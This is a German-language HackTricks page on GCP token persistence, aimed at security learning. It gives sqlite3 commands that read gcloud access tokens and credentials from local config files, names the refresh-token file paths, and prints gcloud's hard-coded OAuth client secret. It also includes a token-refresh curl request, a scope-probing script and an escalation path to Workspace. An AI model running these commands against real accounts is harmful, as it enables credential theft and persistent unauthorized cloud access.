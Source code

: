 # GCP - Token Persistenz

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Authentifizierte Benutzertokens

Um das **aktuelle Token** eines Benutzers zu erhalten, können Sie Folgendes ausführen:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Überprüfen Sie auf dieser Seite, wie Sie **dieses Token direkt mit gcloud verwenden**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Um die Details zur **Generierung eines neuen Zugriffstokens** zu erhalten, führen Sie aus:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Es ist auch möglich, Refresh-Token in **`$HOME/.config/gcloud/application_default_credentials.json`** und in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** zu finden.

Um ein neues aktualisiertes Zugriffstoken mit dem **Refresh-Token**, der Client-ID und dem Client-Secret zu erhalten, führen Sie aus:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die Gültigkeit der Aktualisierungstoken kann in **Admin** > **Sicherheit** > **Google Cloud-Sitzungskontrolle** verwaltet werden, und standardmäßig ist sie auf 16 Stunden eingestellt, obwohl sie so konfiguriert werden kann, dass sie niemals abläuft:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth-Flow

Der Authentifizierungsfluss bei der Verwendung von etwas wie `gcloud auth login` öffnet ein Eingabeaufforderung im Browser, und nachdem alle Berechtigungen akzeptiert wurden, sendet der Browser eine Anfrage wie diese an den von dem Tool geöffneten HTTP-Port:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dann wird gcloud den Zustand und den Code mit einer fest codierten `client_id` (`32555940559.apps.googleusercontent.com`) und **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) verwenden, um die **finalen Refresh-Token-Daten** zu erhalten.

{% hint style="danger" %}
Beachten Sie, dass die Kommunikation mit localhost über HTTP erfolgt, sodass es möglich ist, die Daten abzufangen, um ein Refresh-Token zu erhalten. Diese Daten sind jedoch nur 1 Mal gültig, daher wäre dies nutzlos; es ist einfacher, das Refresh-Token aus der Datei zu lesen.
{% endhint %}

### OAuth-Bereiche

Sie finden alle Google-Bereiche unter [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) oder erhalten sie, indem Sie Folgendes ausführen:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Es ist möglich zu sehen, welche Scopes die Anwendung, die **`gcloud`** zur Authentifizierung verwendet, mit diesem Skript unterstützen kann:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Nach der Ausführung wurde überprüft, dass diese App diese Scopes unterstützt:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
es ist interessant zu sehen, wie diese App den **`drive`** Scope unterstützt, der es einem Benutzer ermöglichen könnte, von GCP zu Workspace zu eskalieren, wenn es einem Angreifer gelingt, den Benutzer zu zwingen, ein Token mit diesem Scope zu generieren.

**Überprüfen Sie, wie Sie** [**das hier ausnutzen können**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Dienstkonten

Genau wie bei authentifizierten Benutzern, wenn Sie es schaffen, die **private Schlüsseldatei** eines Dienstkontos zu **kompromittieren, werden Sie in der Lage sein, darauf zuzugreifen, normalerweise so lange Sie möchten**.\
Wenn Sie jedoch das **OAuth-Token** eines Dienstkontos stehlen, kann das sogar noch interessanter sein, denn selbst wenn diese Tokens standardmäßig nur eine Stunde lang nützlich sind, bleibt das **OAuth-Token gültig, bis es abläuft, wenn das Opfer den privaten API-Schlüssel löscht**.

### Metadaten

Offensichtlich werden Sie, solange Sie sich in einer Maschine im GCP-Umfeld befinden, in der Lage sein, **auf das Dienstkonto zuzugreifen, das mit dieser Maschine verbunden ist, indem Sie den Metadaten-Endpunkt kontaktieren** (beachten Sie, dass die OAuth-Tokens, auf die Sie in diesem Endpunkt zugreifen können, normalerweise durch Scopes eingeschränkt sind).

### Abhilfemaßnahmen

Einige Abhilfemaßnahmen für diese Techniken sind in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) erklärt.

### Referenzen

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks unterstützen</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
